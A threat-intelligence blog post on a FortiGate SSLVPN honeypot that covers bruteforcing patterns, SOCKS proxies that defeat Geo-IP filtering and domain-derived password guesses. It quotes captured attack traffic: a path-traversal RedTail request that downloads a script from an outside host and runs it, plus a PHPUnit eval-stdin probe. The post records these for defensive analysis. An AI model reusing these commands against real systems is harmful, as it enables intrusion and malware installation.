




# Introduction

[Anton Ovrutsky](https://x.com/Antonlovesdnb), my coworker and phenomenal human being, has spent a significant amount of time
instrumenting a Fortigate SSLVPN honeypot with Finch's HTTP(S) reverse proxy. Resultantly, we can pretend we're
GreyNoise now in our downtime-- without the existential dread about the state of the internet (great), or the stock options (not great).

For my role, I've graciously accepted the easier and infinitely less glamorous task of generating our Elastic schema and
doing general data warehousing. This has given me an inflated sense of self importance in this project, and thus was born
this blog series.

When I'm not working on "yet another SSLVPN intrusion" at work, I find that I like to spend my time
staring at the SSLVPN bruteforcing rolling in on our honeypot. You know, to see what it's like
living on the other side of the security stack for a change. 

Anyway, let's talk tech for a minute before we go further.

## General Architecture

For this deployment, we're running a FortiGate-60F (FG-60F) series firewall device on v7.2.10 build 1706. 
The device itself sits behind [Finch](https://github.com/0x4D31/finch), a fingerprinting TLS reverse proxy.
We'll have more to discuss on the fingerprinting in later blogs in this series. This SSLVPN is routable via `vpn.ourhoneypot.com`, where
`ourhoneypot` is actually a legitimate-looking domain, complete with it's own website.


Information is aggregated via Elastic Agent/Logbeat into an Elastic Serverless deployment, where enrichments
are performed such as GeoIP, user agent dissection, and parameter dissection. This lets us aggregate
key metrics such as usernames and passwords attempted by adversaries, the locations of interacting IP addresses,
and endpoints they’ve hit. 

We log a wide swath of data made available to us by Finch, such as HTTP headers and whatnot, but given the
time this SSLVPN has been deployed, we haven't noted much in the way of anomalies in HTTP headers. 


I'm sure that'll change... (foreshadowing) 


# Analysis

For our analysis, we'll largely be using ES|QL and Kibana. I've found that the query engine is enough
for us to summarize our data. We may consider AS enrichment via MaxMind at some point in the future, 
but for now, gud’nuff is good enough. 

We'll define broad patterns as subheadings in this section, and then discuss the implications of the patterns
we observe. 

## Trends at a High Level

I find this a bit dull, but I’d be remiss if I made all these cool dashboard graphics and didn't include them.
First, geographic distribution of source IPs that hit the honeypot. 


To the surprise of absolutely nobody, Russia leads the way, followed by Ukraine, then the US. And further
to the surprise of absolutely nobody, most of these source IPs end up being proxies or VPNs. 

Secondly, a word cloud of common usernames. You might want a password word cloud, but frankly, anonymizing
this and making it look decent is hard, so usernames it is. 


Nothing incredibly shocking is revealed by this data, but `admin` is by and large the most commonly attempted username.

A fun additional observation here is the number of service-related accounts. "support," "scanner," "ftp," "canon," etc.
That itself is a fun detection heuristic if you're trying to spin this off into actionable observations-- "ftp" accounts
authenticating via SSLVPNs are probably anomalous. If you're running an LDAP-backed deployment, this may indicate that
you've unintentionally exposed accounts that should not have access to SSLVPN-- to the SSLVPN.

[Wonder if we've seen that happening anywhere else... (More foreshadowing)](https://www.sonicwall.com/support/knowledge-base/ldap-configuration-sslvpn-default-user-groups-security-risk/250813061722917)

## Terrible Triplets

In my primary hustle at Huntress, I'm running point on SonicWall SSLVPN compromises and analyzing data
pertaining to the significant uptick in ransomware cases spurred from these events. One of the chief
recommendations that SonicWall has made is that users of these appliances should "continue applying
the previously recommended best practices: Enable Botnet Protection and Geo-IP Filtering..."

Of interest there is the "Geo-IP filtering" recommendation. We actually get some insight into how
adversaries may bypass Geo-IP restrictions on devices such as SSLVPNs, and how ineffective this
recommendation may be. 

It is often the case that we see the same username/password combination, and user agent details, 
emitted from a set of three distinct IP addresses. 



If we pivot to Censys here, we're availed with a pattern associated with this bruteforcing. 
`92.63.197[.]59` is the *likely* source of our adversary's bruteforcing. Censys indicates this is exposing SSH,
but no additional services. It's running Ubuntu Linux 20.04; everything is good in the world. However,
given the subsequent two IP addresses, we get some additional context.

`156.228.78[.]171` & `156.228.77[.]91` both expose SOCKS proxies on TCP/1080 and TCP/1081. Using [Spur](https://spur.us)
we can muse on the nature of these IP addresses. These are likely operated by "PlainProxies," and the adversary
is likely using the proxies to mirror outgoing bruteforcing requests through disparate geographic
IP sources. This pattern is *prolific* in this dataset: the pattern of a singular geographically disparate
host generating an authentication request, paired with exactly two SOCKS proxies mirroring these requests. 

We can further observe this pattern rapidly switching IP addresses (not shocking) to evade IP lockout behavior,
and we can even note that the proxying itself occurs from a variety of geolocations (sometimes Canada, Germany, etc.).
This pattern likely renders geographic IP blocking somewhat degraded; eventually a proxy will land somewhere
in the allow list, and given the scale of bruteforcing and password spraying that exists on the Internet,
*eventually* Geo-IP based blocking can and will be bypassed by an adversary. 

While there's no reason to allow an adversary from Ukraine to freely bruteforce your SSLVPN in a US-based business,
relying solely on Geo-IP filtering is probably the digital equivalent to placing a "Do Not Enter" sign to deter
a hurricane. Good luck. 

## Automated Password Enumeration

I'm not sure why this wasn't something I'd considered prior to observing this honeypot, but adversaries
will actively snag the domain or characteristics of the website for use in password lists.

Now, to be transparent, I've done this to a limited capacity in labs and simulated engagements. You know, as one does.
A tool like [CeWL](https://github.com/digininja/CeWL) often renders patterns such as business names, employee
names, etc., in custom wordlists. However, I'm not sure it’s the case that this is being operated autonomously at scale here. 

My direct assertion is that adversary bruteforcing infrastructure will actively enumerate characteristics
of websites and domains to attempt common passwords for SSLVPN infrastructure. (Groundbreaking, I know.)

An example: Our company website may be `https://bigevilcorp.example` and perhaps we've got our VPN sitting at
`https://vpn.bigevilcorp.example`. Our data would suggest the following passwords as likely candidates: 

- bigevilcorp2025  
- bigevilcorp@2024  
- bigevilcorp123!  
- bigevilcorp1!  
- And so on... 

We don’t yet have a reliable way to determine exactly how this enumeration is happening. The absence 
of additional words or users from the “fake website” strongly suggests CeWL probably isn’t the tool of 
choice here. That’s not to say we haven’t seen attempts on specific usernames or passwords tied to the
fictitious company-- just that they’re rare enough to make us question whether humans or bots are having 
a mild identity crisis.

## Resource Request Anomalies

We capture resources requested and header parameters, so let's take a look at those now... 

### Botnets and Background

We're greeted with some usual suspects here. I tend to automatically quell standard botnet behavior from honeypots because, frankly,
it just ends up becoming noise. But we do get RedTail hits on the honeypot. 



For posterity, the request:

```plaintext
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh
cd /tmp || cd /var/tmp; curl hxxp[://]178.16.55[.]224/sh -o redtail.sh || wget hxxp[://]178.16.55[.]224/sh -O redtail.sh; chmod +x redtail.sh; ./redtail.sh apache.selfrep; rm -rf redtail.sh
```

This simply attempts to climb out of a poorly chrooted directory, invoke `sh`, and install Redtail. Simple enough, moving on. 

We also see some PHPUnit enumeration:

```plaintext
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
<?php echo(md5("Hello PHPUnit"));
```

All PHPUnit access attempts stemmed from IP `212.113.102[.]147`, but it seemed to lose interest after some basic enum.
This used the user agent `Custom-AsyncHttpClient`, which is well known for attempting to access PHP-related resources,
and is, at this point, standard internet background noise. 

### Chinese Greetings

Now we're cooking. Chinanet paid us a visit from IP `106.75.189[.]197`:

```plaintext
POST /dqgqoeCXckuwPtxov
{
    ...,
    cookie="IYBCWWS=QdoXqSK71zRwE7UZ67pRZIxg/P8f1Pju7wOjavkA9v+nC2cg3jsdX5bAq4dfq6YpIRNUaUw7sjmau0ugv1lkYJXUt4bXlNXL4lSXUNAIFkpSkZteBCyCfNOW8RYCPlYu2yEwkRqaYftX4zjNi2BgqAOha0WzS4IhJb6HAIwEVitTYo4mp8YQnmxTcj0M9oDlSk35E4wWWrs3gdtkd1E9I/ccGlQ+DeMrOdQrnYD3cB+YgaHfnt0UJs8AM90QmNpLCr79Cc9elsznYvrf4g4SFsJ+dt8e"
}

POST /dqgqoeCXckuwPtxov
{
    ...,
    cookie="Y=DnyP5/s0JCRbgFZfv+L49q5hjuwhM+cfmrOUmC/Qj+hsWi3MPFPhoKX6YY4QR3xq3LXYBSuYMohEoVpn99O7aHg6El3UXR46+T7GyRx6pG/PeAROHwJNFnv+ShXtJyXIpvRaxxHicC+NyQv6Wj7lIAVF76Vu16/MNpIxuTQl5dKXxUSDspRmYq6Qrfzu77PqvFYLSLEUKYnVrpIji2EhWAyvbB8sNyJVtOrbHqUIkNdp5QClV05ZV/j9CFf3eyujxfKJYqjX2NQLZos4PqE/G612ixvROlyuB+IgILK0zSSV+28="
}
```

What's that? No clue. Some googling of the requested resource pointed me to [RotaJakiro](https://malpedia.caad.fkie.fraunhofer.de/details/elf.rotajakiro),
a Linux backdoor. That would imply our above payload is AES-encrypted, XOR’d, ROT’d, and ZLIB-compressed. I'm not going to get through that--
so the specific request details can be left as an exercise for the reader to muse on. 

### CVE-2024-55591

We're also availed with some vuln-scanning behavior from various internet scanners. We actually reached out to WatchTowr about these,
who let us know that this is likely [The Shadowserver Foundation](https://www.shadowserver.org/) doing vulnerability scanning for
CERTs around the world.  


I'm nosy, so I wanted to know more about the specific vulnerability being scanned here. And lo, our `headers.Sec-Websocket-Key` parameter holds
the answer. If we google that string, or pop it into GitHub, we hit on WatchTowr's script. 

```py
    second_url = f"{base_url}/watchTowr-{random_suffix}"
    second_headers = {
        'Sec-WebSocket-Version': '13',
        'Sec-WebSocket-Key': 'thFz/fKwzu5wDEy0XO3fcw==',
        'Connection': 'keep-alive, Upgrade',
        'Upgrade': 'websocket'
    }
```

Read [WatchTowr's fantastic writeup](https://labs.watchtowr.com/get-fortirekt-i-am-the-super_admin-now-fortios-authentication-bypass-cve-2024-55591/) for details on this vulnerability,
which I think are out of scope for this blog. Let me know if you disagree. I accept rage @'s on X/Twitter.

### Known Credentials

One of the more anomalous patterns, that I'll omit for reasons we'll see in a minute, are requests that attempt credentials
for organizations that are completely unknown to us. 

E.g., "patricia@thedogkennel.local". Now... obviously we understand *what* this is, but what I find more likely are
the implications here-- someone has pilfered patricia's credentials, and is currently attempting to employ them on all SSLVPNs. 

This may indicate that an adversary has thefted this user's credentials, but don't know what they go to. Hence, the spray. 

# Conclusion

Honeypots are useful-ish. *Who knew?* None of this exactly groundbreaking-- but hey, look at all the pretty charts
we can make! In the future, with more data, I imagine we'll find something at least remotely novel. 

Since I spent most of my SANS Internet Storm Center internship writing about more unique or interesting
things, this feels like a fitting capstone to those days: I’ve officially done the homework and now get
to document the weird internet stuff like a responsible grown-up.

If we're lucky, we'll catch a zero-day. If trends hold, I’ll be happily paying Elastic $500/mo to store every
imaginable variation of ‘admin123’ from the entire IPv4 address space.

Stay tuned.